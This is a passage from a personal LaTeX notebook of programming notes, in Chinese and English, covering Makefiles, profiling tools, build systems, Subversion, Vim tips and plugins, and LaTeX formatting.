Right click on the new launcher and change the Target field, change \verb|%USERPROFILE%| to the full path of the folder which will contain all the notebooks.
Double-click on the Jupyter Notebook desktop launcher (icon shows [IPy]) to start the Jupyter Notebook App. The notebook interface will appear in a new browser window or tab. A secondary terminal window (used only for error logging and for shut down) will be also opened.




%!Mode:: "TeX:UTF-8"

\section{Makefile关键用法}

\subsection{字符串批量替换}
\verb|%=%|能够实现字符串批量替换,从而创造另一个字符串向量。举例:
\begin{verbatim}
    CHAPTERS = \
    Algorithm \
    CProgram \

CHAP_FILES = $(CHAPTERS:%=Chap_%.tex)
\end{verbatim}

另一个例子:
\begin{verbatim}
CLASSES = InterCitySolution IntraCitySolution
PREFIX = com/zhaojm/TravelAssistant/solutions

CLASS_FILES = $(CLASSES:%=$(PREFIX)/%.class)
CLASS_PATHS = $(CLASSES:%=$(PREFIX)/%)
\end{verbatim}

\subsection{Makefile for循环}
举例:
\begin{verbatim}
 all: $(CLASS_FILES)
	@for CLASS in $(CLASS_PATHS); do java $${CLASS} ; done
\end{verbatim}
注意事项:for循环写在一行中,开头要有@号;上述CLASS为shell变量,需要\verb|$${}|结构,注意是大括号;而CLASS\_PATH为make变量,需要\verb|$()|结构,使用小括号。








%!Mode:: "TeX:UTF-8"
\section{程序性能分析}
我们知道,程序运行时的90\%的时间是用在了10\%的代码上。
如果希望能够有效地对程序进行优化,那么精确地了解时间在应用程序中是如何花费的,以及真实的输入数据,这一点非常重要。这种行为就称为代码剖析(code profiling)。
time工具返回程序运行的用户时间和系统时间。top能显示程序的CPU使用率。
系统一般自带\textbf{oprofile}工具,另外\textbf{Google perf tool}比较强大。Valgrind工具箱的callgrind工具也有类似作用。



\subsection{gprof}
\textbf{gprof}可以为 Linux平台上的程序精确分析性能瓶颈。gprof精确地给出函数被调用的时间和次数,给出函数调用关系。

使用流程:在编译和链接时加上-pg选项, 执行后在程序运行目录下 生成 gmon.out 文件。用 gprof分析 gmon.out文件即可, 调用方式:
\begin{verbatim}
gprof appname
\end{verbatim}


gprof只能分析应用程序在运行过程中所消耗掉的用户时间,无法得到程序内核空间的运行时间。对于多线程程序,gprof只分析主线程。

\subsection{oprofile}

oprofile 是 Linux 平台上的一个功能强大的性能分析工具,支持从进程、函数、代码语句三个层面检测cpu使用情况的方法。

当系统出现cpu使用率异常偏高情况时,oprofile不但可以帮助我们分析出是哪一个进程异常使用cpu,还可以揪出进程中占用cpu的函数、代码。在分析应用程序性能瓶颈、进行性能调优时,我们可以通过oprofile,得出程序代码的cpu使用情况,找到最消耗cpu的那部分代码进行分析与调优,做到有的放矢。另外,进行程序性能调优时,我们不应仅仅关注自己编写的上层代码,也应考虑底层库函数,甚至内核对应用程序性能的影响。我们还可以通过oprofile查看高速缓存的利用率、错误的转移预测等信息,"opcontrol --list-events"命令显示了oprofile可检测到的所有事件。

oprofile 在Linux 上分两部分,一个是内核模块(oprofile.ko),一个为用户空间的守护进程(oprofiled)。前者负责访问性能计数器或者注册基于时间采样的函数(使用register\_timer\_hook注册之,使时钟中断处理程序最后执行profile\_tick 时可以访问之),并采样置于内核的缓冲区内。后者在后台运行,负责从内核空间收集数据,写入文件。

\begin{verbatim}
初始化
opcontrol --no-vmlinux : 指示oprofile启动检测后,不记录内核模块、内核代码相关统计数据
opcontrol --init : 加载oprofile模块、oprofile驱动程序

检测控制
opcontrol --start : 指示oprofile启动检测
opcontrol --dump : 指示将oprofile检测到的数据写入文件
opcontrol --reset : 清空之前检测的数据记录
opcontrol -h : 关闭oprofile进程

查看检测结果
opreport : 以镜像(image)的角度显示检测结果,进程、动态库、内核模块属于镜像范畴
opreport -l : 以函数的角度显示检测结果
opreport -l test : 以函数的角度,针对test进程显示检测结果
opannotate -s test : 以代码的角度,针对test进程显示检测结果
opannotate -s /lib64/libc-2.4.so : 以代码的角度,针对libc-2.4.so库显示检测结果
\end{verbatim}

\subsection{测量程序运行时间}
两种测试程序时间的方法,一种是通过间隔计数,另一种通过周期计数器。
首先介绍这两种方法的含义,摘自《深入理解计算机系统》。

间隔计数:操作系统维护者每个进程使用的用户时间量和系统时间量的计数值,当计时器中断发生时,操作系统会确定哪个进程是活动的,并且对那个进程的一个计数值增加计时器间隔时间。如果系统是在内核模式中执行的,那么就增加系统时间,否则增加用户时间。这种方法一般使用clock函数实现。

周期计数器:处理器内部包含一个运行在时钟周期级的计数器,每个时钟周期它都会家1。可以利用特殊的机器指令来读这个计数器的值。如果要测试一段代码的时间,只需在代码段前后分别获取计数器的值,然后将这两个计数器的值相减,除以处理器频率,就可以得到这段代码的运行时间。

\subsection{pstack和strace}
显示正在运行的程序的执行堆栈,只支持32位Linux环境,只支持x86机器,只支持用GNU编译器编译的程序,该程序的符号表(symbols)不能被裁减掉。

\begin{verbatim}
pstack pid
\end{verbatim}


strace是Linux环境下的一款程序调试工具,用来监察一个应用程序所使用的系统调用及它所接收的系统信息。
strace的工作依赖于kernel的ptrace功能。

\begin{verbatim}
strace -p pid
\end{verbatim}


























\section{PyInstaller}

Use of pyinstaller on windows may fail if pyinstaller's installation path
contains spaces. Workarounds exist though.

\begin{verbatim}
 /d/Program\ Files/Python27/python "/d/Program Files/Python27/Scripts/pyinstaller-script.py"  -F plot_trace.py
\end{verbatim}
%!Mode:: "TeX:UTF-8"

\section{Build and SCM systems}

\href{https://about.gitlab.com/}{GitLab}, the software, is a web-based Git repository manager with wiki and issue tracking features.
 
\href{https://jenkins-ci.org/}{Jenkins} is an open source continuous integration tool written in Java.
 It is a server-based system running in a servlet container such as Apache Tomcat. 
 It supports SCM tools including AccuRev, CVS, Subversion, Git, Mercurial, Perforce, Clearcase and RTC, 
 and can execute Apache Ant and Apache Maven based projects as well as arbitrary shell scripts and Windows batch commands.

\href{http://ant.apache.org/}{Apache Ant} is a software tool for automating
software build processes, which originated from the Apache Tomcat project in early 2000.
 It was a replacement for the unix make build tool, and was created due to a number of problems with the unix make.
It is similar to Make but is implemented using the Java language, requires the Java platform, and is best suited to building Java projects.
 The main known usage of Ant is the build of Java applications. 
 Ant supplies a number of built-in tasks allowing to compile, assemble, test and run Java applications. 
Ant can also be used effectively to build non Java applications, for instance C or C++ applications.

\href{https://maven.apache.org/}{Maven} is a build automation tool used primarily for Java projects.
Maven addresses two aspects of building software: First, it describes how
software is built, and second, it describes its dependencies. 
Contrary to preceding tools like Apache Ant, it uses conventions for the build procedure, and only exceptions need to be written down. 
An XML file describes the software project being built, its dependencies on other external modules and components, the build order, directories, and required plug-ins.


\subsection{Qmake,CMake}
qmake是一个协助简化跨平台进行项目开发的构建过程的工具程序,Qt附带的工具之一 。qmake能够自动生成Makefile、Microsoft Visual Studio 项目文件 和 xcode 项目文件。不管源代码是否是用Qt写的,都能使用qmake,因此qmake能用于很多软件的构建过程。

手写Makefile是比较困难而且容易出错,尤其在进行跨平台开发时必须针对不同平台分别撰写Makefile,会增加跨平台开发复杂性与困难度。qmake会根据项目文件(.pro)里面的信息自动生成适合平台的 Makefile。开发者能够自行撰写项目文件或是由qmake本身产生。qmake包含额外的功能来方便 Qt 开发,如自动的包含moc 和 uic 的编译规则。

CMake是个开源的跨平台自动化建构系统,它用配置文件控制建构过程(build process)的方式和Unix的Make相似,只是CMake的配置文件取名为CmakeLists.txt。Cmake并不直接建构出最终的软件,而是产生标准的建构文件(如Unix的Makefile或Windows Visual C++的projects/workspaces),然后再依一般的建构方式使用。这使得熟悉某个集成开发环境(IDE)的开发者可以用标准的方式建构他的软件,这种可以使用各平台的原生建构系统的能力是CMake和SCons等其他类似系统的区别之处。CMake可以编译源代码、制做程序库、产生适配器(wrapper)、还可以用任意的顺序建构可执行文件。CMake支持in-place建构(二进文件和源代码在同一个目录树中)和out-of-place建构(二进文件在别的目录里),因此可以很容易从同一个源代码目录树中建构出多个二进文件。CMake也支持静态与动态程序库的建构。

“CMake”这个名字是"cross platform make"的缩写。虽然名字中含有"make",但是CMake和Unix上常见的“make”系统是分开的,而且更为高级。


%!Mode:: "TeX:UTF-8"

\subsection{Scons}

\begin{verbatim}
  Program('program', ['prog.c', 'file1.c', 'file2.c'])
  Program('program', 
 	 ['hello.cpp', 'bloom_filter.c'], 
 	 CPPPATH = ['/home/truckli/Coding/wheels/Boost/boost_1_59_0'],
 	 LIBS='boost_system', 
 	 LIBPATH=['/home/truckli/Coding/wheels/Boost/boost_1_59_0/stage/lib'])

\end{verbatim}

\begin{verbatim}
env = Environment(CPPPATH = ['/home/truckli/Coding/wheels/Boost/boost_1_59_0'])
env.Program('program', ['hello.cpp', 'bloom_filter.c'], LIBS='boost_system', LIBPATH=['/home/truckli/Coding/wheels/Boost/boost_1_59_0/stage/lib'])
\end{verbatim}











%!Mode:: "TeX:UTF-8"

\section{Subversion}

Project creation:
\begin{verbatim}
  svn import -m "start up" ../http4ipa/ svn://192.168.8.221/http4ipa
\end{verbatim}

Set a dir's ignores:
\begin{verbatim}
svn propedit svn:ignore *.bak
svn propset svn:ignore "ignore1 ignore2" your_dir_name
\end{verbatim}

Version comparison:
\begin{verbatim}
svn diff -rHEAD
svn diff -r 18153:18168
\end{verbatim}
Notice: old commit is to be placed first.

Version rollback:
\begin{verbatim}
svn update
svn merge -r 150:140 .
svn commit -m "Rolled back to r140"
\end{verbatim}

Remove all missing files:
\begin{verbatim}
svn st | grep '^!' | awk '{print $2}' | xargs svn delete --force
\end{verbatim}

SVN CHEAT SHEET:
\url{http://web.archive.org/web/20121021221547/http://cheat.errtheblog.com/s/svn/}




















%!Mode:: "TeX:UTF-8"
\section{UML正反向工程}
umbrello:不能包含c语言标准库的文件,如
\verb+#include <time.h>+
否则程序会崩溃

%!Mode:: "TeX:UTF-8"

\section{Valgrind}

Valgrind是运行在Linux上一套基于仿真技术的程序调试和分析工具,它包含一个内核──一个软件合成的CPU,和一系列的小工具,每个工具都可以完成一项任务──调试,分析,或测试等。Valgrind可以检测内存泄漏和内存违例,还可以分析cache的使用等,灵活轻巧而又强大,能直穿程序错误的心脏,真可谓是程序员的瑞士军刀。

Valgrind包含如下工具:
\begin{description}
  \item[Memcheck]最常用的工具,用来检测程序中出现的内存问题:
    \begin{enumerate}
        \item 对未初始化内存的使用; 
        \item 读/写释放后的内存块; 
        \item 读/写超出malloc分配的内存块; 
        \item 读/写不适当的栈中内存块; 
        \item 内存泄漏,指向一块内存的指针永远丢失; 
        \item 不正确的malloc/free或new/delete匹配; 
        \item memcpy()相关函数中的dst和src指针重叠。
     \end{enumerate} 
    \item[Callgrind]和gprof类似的分析工具,但它对程序的运行观察更是入微。Callgrind收集程序运行时的一些数据,建立函数调用关系图,还可以有选择地进行cache模拟。
    \item[Cachegrind]Cache分析器,它模拟CPU中的一级缓存I1,Dl和二级缓存,能够精确地指出程序中cache的丢失和命中。如果需要,它还能够为我们提供cache丢失次数,内存引用次数,以及每行代码,每个函数,每个模块,整个程序产生的指令数。这对优化程序有很大的帮助。
    \item[Helgrind]仍处于实验阶段。它主要用来检查多线程程序中出现的竞争问题。Helgrind寻找内存中被多个线程访问,而又没有一贯加锁的区域,这些区域往往是线程之间失去同步的地方,而且会导致难以发掘的错误。
    \item[Massif]堆栈分析器,它能测量程序在堆栈中使用了多少内存,告诉我们堆块,堆管理块和栈的大小。
\end{description}

Valgrind检测的程序需用-g选项编译。gcc的-g选项能够生成额外调试信息。

Memcheck用法:
\begin{verbatim}
   valgrind --leak-check=full ./appname args...
   或 valgrind --tool=memcheck ./appname args...
\end{verbatim}


Callgrind会输出很多,而且最后在当前目录下生成一个文件: callgrind.out.pid。用callgrind\_annotate来查看它:
\begin{verbatim}
   valgrind --tool=callgrind ./appname args...
   callgrind_annotate callgrind.out.pid
\end{verbatim}

















%!Mode:: "TeX:UTF-8"
\section{Vim文本编辑}

vimdiff即vim -d,view即vim -R。


\subsection{快速键入}
本节C表示Ctrl键。
在insert模式下:\\
C-W 删除当前单词(同Bash) \\
C-U 删除当前句子(同Bash)\\
C-P,C-N  自动补全,补全内容分别从前方或后方搜索\\
C-A 键入上次在INSERT模式下键入的内容,并进入INSERT模式\\
C-Y 键入上次在INSERT模式下键入的内容\\
C-X C-F 自动补全,文件名\\
C-X C-L 自动补全,整行\\
C-X C-D  自动补全,宏定义\\

在Normal模式下,CTRL A 和CTRL X分别将光标下的数字加1或减1

\subsection{快速配对区域操作}
快速处理\verb+''、""、()、[]、{}、<> +等配对标点符号中的文本内容,包括更改、删除、复制等。
\begin{verbatim}
ci(  快速修改()内的内容,即删除后进入insert模式
di(  快速删除()内的内容
yi(  快速复制()内的内容
\end{verbatim}
将上述i替换为a,()本身也会被选取。


\subsection{跨文档复制粘贴}
一般地,复制到指定寄存器的方法为:

普通模式下\verb|"+寄存器名+y|。

插入某寄存器内容的方法为:

普通模式下\verb|"+寄存器名+p|或编辑模式下\verb|Ctrl+R+寄存器名|。

有两个特殊的寄存器: 选择寄存器(寄存器``)为可视模式下选择的内容,剪贴板(寄存器+)为用图形界面选择的内容。


\subsection{跨文件字符替换}
每个文件在vim被称为缓冲区。

方法一:命令录制。
\begin{verbatim}
qq,:wnext,q.
\end{verbatim}

方法二:bufdo, argdo, windo等。
\begin{verbatim}
:wa
:bufdo %s/foo/bar/ge |update
\end{verbatim}

\subsection{文档统计}
显示当前文件名称与行数
\begin{verbatim}
:f 或 Ctrl+G
\end{verbatim}
显示某单词word出现的次数
\begin{verbatim}
%s/word//gn
\end{verbatim}
中文字数统计(近似方法)
\begin{verbatim}
%s/\S//gn
缺点是将非中文字符也算做一个字,如英文单词、标点等。
:%s/[^[:print:][:cntrl:]]//gn
缺点是中文标点也算作了汉字
:%s/[\u4e00-\u9fa5]//gn
使用unicode匹配,不成功,可能是因为utf8编码的文件不支持unicode匹配
\end{verbatim}


注意wc -m命令也可以统计字符数,但是把空白字符也算作内了。

\subsection{基于空格的列操作}
\verb+\S,\s+分别表示非空格和空格,后带\verb%\+%表示至少为一。再结合括号和数字引用,可以基于空格进行各种列操作。

例1:在非空行前后添加内容:
\verb#:%s/^\s*\(\S\+.*\)$/haha;\1wawa;#

例2:只保留第一列,其余删除:
\verb%5,12s/\(\S\+\)\s\+.*/\1/g%

\subsection{折行的开与关}
zR 打开所有折行;zr打开下一级折行;zM关闭所有折行;zm 关闭上一级折行
zo 打开折行;zc 重新关闭折行
zf 创建折行;zfap zf命令作用于ap(一个段落)

\subsection{屏幕错乱}
Ctrl+L即可。

\subsection{键入特殊字符}
外国人姓名之间的点号:fcitx激活时键入[即可。
\begin{verbatim}
:digraphs 查看VIM支持的特殊字符
\end{verbatim}
Insert模式使用CTRL-K {key1 key2}键入特殊字符。
如输入拼音a的四个声调,分别为\verb+a-(或a~),a‘,a<,a`(或a!)+。希腊字符\[\alpha,\beta\]分别为\verb+a*, b*+。

\subsection{键入Unicode字符}
Insert模式使用CTRL-V {digits}来插入一个由{digits}指定其ASCII码的字符. 

用这种方法你可以插入0到255的所有字符.如果你键入的数字少于两个, 那么Vim会在遇到一个非数字字符时终止这个命令. 要避免非得键入一个非数字字符才能让这个命令结束,你可以在数字前加上一个或两个0来凑足3个数.

\begin{verbatim}
CTRL-V 009.
\end{verbatim}

要用十六进制来表示你的ASCII, 在CTRL-V后面附加一个"x":
\begin{verbatim}
CTRL-V x7f
\end{verbatim}

接下来的两个方法还可以让你键入一个16bit或32bit的数字(比如,用来指定一个Unicode字符):
\begin{verbatim}
CTRL-V o123
CTRL-V u1234
CTRL-V U12345678
\end{verbatim}

\subsection{快速插入日期}
可以定义如下键盘映射,使得在Insert模式下,F8可以键入日期:
\begin{verbatim}
imap <F8> <Esc>:read !date +\%F<CR>i
使用了date系统命令,\是为了转义%号,在Bash中不需要
格式%F相当于%Y-%m-%d
\end{verbatim}

\subsection{大小写转换}
在替换命令中,一个字符前面加\verb+\u+会被转为大写,\verb+\l+会被转为小写。
Normal模式下大写转化的命令是gu或者gU, 分别对应小写转换和大写转换。
guw 、gue将当前单词转为小写,而gU5w、gU5e将5个单词转为大写。
gU0从光标所在位置到行首,都变为大写。
gU\$光标所在位置到行尾,都变为大写。
gUG从光标所在位置到文章最后一个字符,都变为大写。
gU1G从光标所在位置到文章第一个字符,都变为大写。


\subsection{列选择模式}
Normal模式下CtrlV会进入列选择模式,可以用来对表格的列进行选择操作。


\subsection{缩写}
iab命令定义在Insert模式下的缩写,如

\begin{verbatim}
iab ssend SSEND_HAHA
\end{verbatim}
iunab取消缩写,iab列出缩写。

\subsection{C程序缩进}
设置缩进为4,并用空格代替TAB:
\begin{verbatim}
set softtabstop=4
set shiftwidth=4
set expandtab
\end{verbatim}
== 为当前行整理缩进
=a{ 为当前代码块整理缩进
=G 从当前行到文件结尾,整理缩进
gg=G 为整个文件整理缩进


\subsection{英文拼写检查}
\begin{verbatim}
:setlocal spell spelllang=en_us 
:set spell
:setlocal nospell
:set nospell
\end{verbatim}


\subsection{vim选项的值}
\begin{verbatim}
:se[t] 显示所有不等于默认值的选项
:set all 显示所有选项
:set option? 显示选项的值
:set option 对于Toggle类型的选项,将其值设置为on;其他类型的选项,显示其值
\end{verbatim}

\subsection{重新载入vimrc}
\begin{verbatim}
:source ~/.vimrc
:so ~/.vimrc
\end{verbatim}

\subsection{换行符在替换命令中的表示}
如果是匹配换行符,直接用\$即可。如果想替换成换行符,在替换命令中用由ctrl+V+M获得\^M符号。
\begin{verbatim}
​:s/char/^M/
\end{verbatim}

\subsection{最短匹配}

\begin{verbatim}
\{-}最短匹配
\{}最长匹配,如同*
\end{verbatim}












%!Mode:: "TeX:UTF-8"
\section{在Vim中编写tex文件}

\subsection{latexsuite安装与配置}
\begin{shellcmd}
	sudo apt-get install vim-latexsuite
	vim-addons install latex-suite
\end{shellcmd}
意欲在打开tex文件时自动开启latexsuite,需配置.vimrc
详细参见help:latex-suite
\begin{verbatim}
    " REQUIRED. This makes vim invoke Latex-Suite when you open a tex file.
    filetype plugin on
    
    " IMPORTANT: win32 users will need to have 'shellslash' set so that latex
    " can be called correctly.
    set shellslash
    
    " IMPORTANT: grep will sometimes skip displaying the file name if you
    " search in a singe file. This will confuse Latex-Suite. Set your grep
    " program to always generate a file-name.
    set grepprg=grep\ -nH\ $*
    
    " OPTIONAL: This enables automatic indentation as you type.
    filetype indent on
    
    " OPTIONAL: Starting with Vim 7, the filetype of empty .tex files defaults to
    " 'plaintex' instead of 'tex', which results in vim-latex not being loaded.
    " The following changes the default filetype back to 'tex':
    let g:tex_flavor='latex'

\end{verbatim}

\subsection{配置文件}
配置文件texrc的路径为:
~/.vim/ftplugin/latex-suite
\subsection{环境插入}
F5用于输入环境。

\subsection{分节}
文档上给出了快捷键:
\begin{verbatim}
SPA for part
SCH for chapter
SSE for section
SSS for subsection
SS2 for subsubsection
SPG for paragraph
SSP for subparagraph
\end{verbatim}


\subsection{借助sort命令多域排序}
如果以\&为分隔符(常见于latex表格),第二列升序,第一列降序排序,则有:
\verb+sort -k 2n -k 1r -t'&' FILENAME+

\subsection{表格标记添加}
如果表格是从word或网页上拷贝的,则需要添加\&和换行符号。在vim中依次执行一下命令:
\begin{verbatim}
:22,40s/\s\+$//  #去除行尾空格
:22,40s/\(\s\+\)/\&\1/g #空格前添加&
:22,40s/$/\\\\/g #行尾添加\\符号
\end{verbatim}



%!Mode:: "TeX:UTF-8"

\section{Vim跳转}

\subsection{同时打开两个文件}
\begin{verbatim}
vim -o a.txt b.txt 竖屏
vim -O a.txt b.txt 横屏
vim -p a.txt b.txt 多标签页
:new 新增空白窗口
Ctrl-w = 平分宽高,注意键入=时,ctrl和w必须松开
Ctrl-w +/> 增减高/宽
Ctrl-w -/< 减小高/宽
Ctrl-w 20< 宽度减小20个单位
20Ctrl-w < 宽度减小20个单位
:vertical res[ize] +8 宽度增减8
\end{verbatim}

\subsection{命令行窗口}
Normal模式下键入\verb+q:+。

\subsection{shell跳转}
\begin{verbatim}
:sh 暂时返回shell;exit会返回vim
ctrl+Z 将vi转入后台,用fg恢复vi
\end{verbatim}

\subsection{路径跳转}
\begin{verbatim}
:E[xplore] 裂屏显示文件目录
:Sex 同Explore, 但是是上下裂屏
\end{verbatim}

\subsection{文件跳转}
\begin{verbatim}
:find filename用于文件跳转。
:[vert] sfind filename裂屏跳转。
:tabfind filename 新建标签页并跳转
gf(goto file)跳转到光标下的文件。
\end{verbatim}

有时需要添加path信息,如
\begin{verbatim}
:set path+=<path to the file>
:set path 显示path的当前值
:checkpath 显示所有无法找到的#include文件
:checkpath! 显示所有#include文件
\end{verbatim}
当前目录下的文件不需要添加path信息。

我们还可以在这个命令中使用通配符来进行匹配,如:
\begin{verbatim}
:set path=/usr/include,/usr/include/*
\end{verbatim}
这样,\verb+:find stdio.h+就可以查看一些库文件。

**匹配整个目录树,如:
\begin{verbatim}
:set path=/usr/include/**
:set path=/home/oualline/progs/**/include
\end{verbatim}
空字符串指当前目录,.指我们正在编辑的文件所在的目录,例如下面的命令是告诉Vim查找的目录包括/usr/include及其所的子目录,我们正编辑的文件所在的目录(.)以及当前目录(空串):
\begin{verbatim}
:set path=/usr/include/**,.,,
\end{verbatim}

\subsection{语句跳转}
\begin{verbatim}
[/]{ 查找上/下一个层次高于当前位置的{,用于语句块跳转
[/]# 查找上/下一个层次高于当前位置的#,用于在#ifdef-#endif结构中跳转
[/]( 查找上/下一个层次高于当前位置的(,用于在条件表达式中跳转
[/]/ 查找上/下一个层次高于当前位置的/,用于在注释中跳转
[/][ 查找上/下一个层次为1的{,用于全局函数跳转
[/]m 查找上/下一个层次为1或2的{,在面向对象语言中method对应层次为2的{
{/} 转到上/下一个空行
*/# 转到当前光标所指的单词下/上一次出现的地方
\end{verbatim}


\begin{verbatim}
[I 会列出所有包含该标识符的行,其中第一行可能包含变量定义,搜索范围包括了include文件。

[I命令查找任何的标识符.要只查找宏使用[D。

[d显示[D的第一个结果,[i显示[I的第一个结果。

[+tab 跳转至函数声明或变量定义,估计就是[i所指示的结果。gD将搜索范围局限在了当前文件,gd将搜索范围局限在了当前函数。
\end{verbatim}

\subsection{show invisible characters}
\begin{verbatim}
:set invlist ^I denotes a TAB, $ denotes a Line feed
\end{verbatim}

\subsection{标签页操作}

\begin{verbatim}
vim -p file1 file2 ..
:tabnew file1
:tabe[dit] file2
:tabnew
:tab split
:tabs 显示所有标签页的信息
\end{verbatim}
使用标签页打开文件

\begin{verbatim}
:tabc :q 关闭当前标签页
:tabo 关闭所有标签页
gt 转入下一个标签页
gT 转入上一个标签页
3gt 转入第3个标签页
:tabn 转入下一个标签页
:tabp 转入上一个标签页
:tabfirst, :tablast 顾名思义
:tabdo cmd 对所有标签页执行命令
\end{verbatim}

\subsection{十六进制显示}
\begin{verbatim}
:%!xxd 十六进制显示
:%!xxd -r 复原
\end{verbatim}




%!Mode:: "TeX:UTF-8"
\section{Nerd注释插件用法}
\begin{verbatim}
简单介绍下NERD Commenter的常用键绑定,以C/C++文件为例,详析的使用方法,请:h NERDCommenter。在Normal或者Visual 模式下:

,ca,在可选的注释方式之间切换,比如C/C++ 的块注释/* */和行注释//

,cc,注释当前行

,c,切换注释/非注释状态

,cs,以”性感”的方式注释

,cA,在当前行尾添加注释符,并进入Insert模式

,cu,取消注释

Normal模式下,几乎所有命令前面都可以指定行数

Visual模式下执行命令,会对选中的特定区块进行注释/反注释

注:各命令前缀是可以自己设置的,通常是逗号’,'或者’\’.
\end{verbatim}

%!Mode:: "TeX:UTF-8"
\section{Vim之quickfix插件}
Vim标准插件,无需安装。

在代码窗口中执行:make命令后,按回车可以定位到第一个error或warning。

用法:
\begin{verbatim}
:cc                显示详细错误信息 ( :help :cc )
:cp                跳到上一个错误 ( :help :cp )
:cn                跳到下一个错误 ( :help :cn )
:cl                列出所有错误 ( :help :cl )
:cw                如果有错误列表,则打开quickfix窗口 ( :help :cw )
:col               到前一个旧的错误列表 ( :help :col )
:cnew              到后一个较新的错误列表 ( :help :cnew ) 
\end{verbatim}

常见设置(.vimrc)
\begin{verbatim}
"quickfix
nmap <F6> :cn<cr>
nmap <F7> :cp<cr>
\end{verbatim}



%!Mode:: "TeX:UTF-8"
\section{Vim之taglist插件}
用法:
\begin{verbatim}
:TlistToggle 打开或关闭列表
<CR> 跳转至列表所指对象
<Space> 显示原型
u 更新列表
s 更新排序方式(按出场顺序或名称)
x 伸缩列表宽度
\end{verbatim}

常见设置(.vimrc)
\begin{verbatim}
let Tlist_Show_One_File = 1            "不同时显示多个文件的tag,只显示当前文件的
let Tlist_Exit_OnlyWindow = 1          "如果taglist窗口是最后一个窗口,则退出vim
let Tlist_Use_Right_Window = 1         "在右侧窗口中显示taglist窗口
let Tlist_GainFocus_On_ToggleOpen = 1
map <silent> <leader>tl :TlistToggle<cr>
\end{verbatim}



%!Mode:: "TeX:UTF-8"

\section{Vim之Vundle}
安装Vundle:
\begin{verbatim}
git clone http://github.com/gmarik/vundle.git ~/.vim/bundle/vundle
\end{verbatim}

在Vim下执行Vundle命令:
\begin{verbatim}
:BundleInstall
:BundleSearch
:BundleClean
\end{verbatim}


插件安装命令也可在Shell中执行:
\begin{verbatim}
vim +PluginInstall +qall
\end{verbatim}


vimrc配置:

\begin{verbatim}
" For vundle
set nocompatible
filetype off
set rtp+=~/.vim/bundle/vundle/
call vundle#rc()
Bundle 'gmarik/vundle'
" vim-scripts repos
Bundle 'bash-support.vim'
Bundle 'perl-support.vim'
filetype plugin indent on
\end{verbatim}



%!Mode:: "TeX:UTF-8"
\section{YouCompleteMe的安装}
Vim的插件YCM(YouCompleteMe)为多种语言提供了代码分析、自动补全功能,社区评价高,可以用来取代传统的基于字符串匹配的代码补全方案,如ctags和cscope。然而YCM的安装未必容易,可能会出现各种闹心的错误(作者称之为hassles)。我的建议是认真阅读作者的安装说明,严格遵照文章中提到的步骤进行,不要看网上各种帖子。YCM依赖于clang,作者的安装说明要求自行安装官方clang,不能使用发行版提供的clang。而对于32位系统,clang官方是不提供二进制包的,只能自己从源代码编译。整个安装过程可能很不顺畅。
\subsection{基于Ubuntu14.04的快速安装}

幸运的是,Ubuntu用户可以利用包管理工具快速安装YCM和其他VIM插件,极大地简化了安装流程。 首先用apt-get工具安装VAM和vim-youcompleteme软件:
\begin{verbatim}
sudo apt-get install vim-addon-manager
sudo apt-get install vim-youcompleteme
\end{verbatim}
接着执行VAM的插件安装命令:
\begin{verbatim}
vam install youcompleteme
\end{verbatim}
这样,如果不需要C系语言(C++, Objective-C等等)补全,YCM就安装成功了。
为了开启C系语言语法补全,需要告诉Vim一件事:\verb$ycm_extra_conf.py$这个文件在哪里。

\subsection{基于Windows的安装(失败)}
YCM对Windows不提供官方支持。

通过vundle下载YCM的安装文件。

接着,编译安装YCM:

\begin{verbatim}
cd ~/.vim/bundle/YouCompleteMe 
git submodule update --init --recursive
./install.py --clang-completer

 set(USE_SYSTEM_LIBCLANG "ON")
C:\Program Files (x86)\LLVM\bin

/c/Program Files (x86)/LLVM/bin

 ./install.py --clang-completer --system-libclang
 
 ~/.vim/bundle/YouCompleteMe/third_party/ycmd/cpp/ycm/CMakeLists.txt
 
 ./configure --with-features=huge --enable-pythoninterp --with-python-config-dir=
 
 \end{verbatim}

















%!Mode:: "TeX:UTF-8"
\chapter{Document Editing}

\section{Math formulas}

\section{Inserting math formulas in a HTML page}
\begin{verbatim}
<!DOCTYPE html>
<html>
<head>
<title>MathJax TeX Test Page</title>
<script type="text/x-mathjax-config">
  MathJax.Hub.Config({tex2jax: {inlineMath: [['$','$'], ['\\(','\\)']]}});
</script>
<script type="text/javascript"
  src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML">
</script>
</head>
<body>
When $a \ne 0$, there are two solutions to \(ax^2 + bx + c = 0\) and they are
$$x = {-b \pm \sqrt{b^2-4ac} \over 2a}.$$
</body>
</html>
\end{verbatim}

\section{Beamer of the LaTex World}
A frame must be specified as \textit{fragile} when it contains a
\textit{verbatim} block.

%!Mode:: "TeX:UTF-8"
\section{Formatting Tips in LaTex}
\subsection{a line break in description requires a hfill}
\begin{verbatim}
\begin{description}
    \item[First] \hfill \\
        The first item
    \item[Second] \hfill \\
        The second item
    \item[Third] \hfill \\
        The third etc \ldots
\end{description}
\end{verbatim}


%!Mode:: "TeX:UTF-8"
\section{the Help System in LaTex}
texdoc is used to open PDF-formatted documentation.
\begin{verbatim}
texdoc xetex
texdoc listings
\end{verbatim}







%!Mode:: "TeX:UTF-8"

\section{Object Insertion in LaTeX}

\subsection{insertion of images}
graphicx package is meant here:
\begin{lstlisting}[language={[LaTex]Tex}]
\begin{figure}[htpb]
    \begin{center}
        \includegraphics[keepaspectratio,width=0.8\paperwidth]{a.png}
    \end{center}
    \caption{SQL language elements}
    \label{fig:SQL lan elem}
\end{figure}
\end{lstlisting}

\subsection{insertion of tables}

A pitfall is that the label must appear after the caption. 
I discovered this while on PHD dissertation.
\begin{lstlisting}[language={[LaTex]Tex}]
\begin{table}[tbp]
 \centering 
 \begin{tabular}{lcc}  
 \hline
A & B & HiliMG \\ 
 \hline  
C  & 32 & 0 \\         
D & 3.61Mbps & 3.75Mbps \\        
 \hline
 \end{tabular}
 \caption{HiliMG
 \label{tab:hilimgAndOpenloop}
 \end{table}
\end{lstlisting}


\subsection{insertion of special characters}
\verb+\textbackslash+


\subsection{insertion of code}
\begin{verbatim}
\usepackage{listings} 

\begin{lstlisting}[language=C]
int rank()
{ 
    return 0;
}
\end{lstlisting}
\end{verbatim}


\subsection{insertion of pesudo-code}

We can combinely use 
algorithm and algorithmic environments.
The required packages are:

\begin{verbatim}
\usepackage{algorithm}
\usepackage{algpseudocode}
\end{verbatim}

For Debian's texlive system, texlive-science package is needed here.
\begin{verbatim}
\begin{algorithm}
\caption{xxxxxxxx}\label{euclid}
\begin{algorithmic}[1]
\Procedure{StaticChunkedParse}{$msg$}\Comment{msg is the chunked message}
